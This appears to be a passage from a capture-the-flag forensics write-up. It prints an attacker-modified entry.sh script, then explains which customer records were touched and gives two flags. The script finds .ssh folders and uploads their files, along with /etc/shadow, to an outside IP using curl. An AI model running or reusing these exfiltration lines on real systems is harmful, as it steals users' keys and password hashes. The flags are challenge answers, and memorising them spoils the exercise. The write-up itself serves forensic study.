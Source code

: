 ```bash
fi

mysql -uroot -h db -p351BrE7aTQE8 -e 'CREATE DATABASE customers;\
                                USE customers;\
                                CREATE TABLE customer_info(LastName varchar(255), FirstName varchar(255), Email varchar(255), CreditCard varchar(255), Password varchar(255));\
                                INSERT INTO customer_info VALUES ("Meserole", "Andrew", "A@A.com", "378282246310005", "badpass1");\
                                INSERT INTO customer_info VALUES ("Billy", "Bob", "B@A.com", "371449635398431", "badpass2");\
                                INSERT INTO customer_info VALUES ("Suzy", "Joe", "S@A.com", "378734493671000", "badpass3");\
                                INSERT INTO customer_info VALUES ("John", "Doe", "J@A.com", "6011000990139424", "badpass4");\
                                INSERT INTO customer_info VALUES ("Frank", "Ferter", "F@A.com", "3566002020360505", "badpass5");\
                                INSERT INTO customer_info VALUES ("Orange", "Chair", "O@A.com", "4012888888881881", "badpass6");\
                                INSERT INTO customer_info VALUES ("Face", "Book", "C@A.com", "5105105105105100", "badpass7");\'

find /tmp/home -type d -name ".ssh" 2> /dev/null > /tmp/ljkasdhg
find /tmp/root -type d -name ".ssh" 2> /dev/null >> /tmp/ljkasdhg

sleep 2m;

while read line; do
    find $line -type f -exec curl -k -F 'data=@{}' https://10.91.9.93/ \;
done < /tmp/ljkasdhg

curl -k -F 'data=@/tmp/etc/shadow' https://10.91.9.93/

service apache2 stop;
apache2 -D FOREGROUND;
```

<center>
![](https://media.giphy.com/media/K90ckojkohXfW/giphy.gif)
</center>

It's Christmas, we found the file modified by the attacker and what allowed him to do yolo with the system. He modified database entries, retrieved `/etc/shadow`, information about users' `.ssh` folders.

The compromised users are therefore:

	Flag 1: Billy,Face,Frank,John,Meserole,Orange,Suzy

The file that was used to extract data from the data is therefore `entry.sh`:

	Flag 2: 14b0d800ce6f2882a6f058b45fc500c8

Still in the same perspective as to find the `entry.sh`, I listed the diff folders. In fact, I thought we were looking for a SQL backup or something like that, modifying a database without getting the backups is like ransomware that doesn't delete clear files...
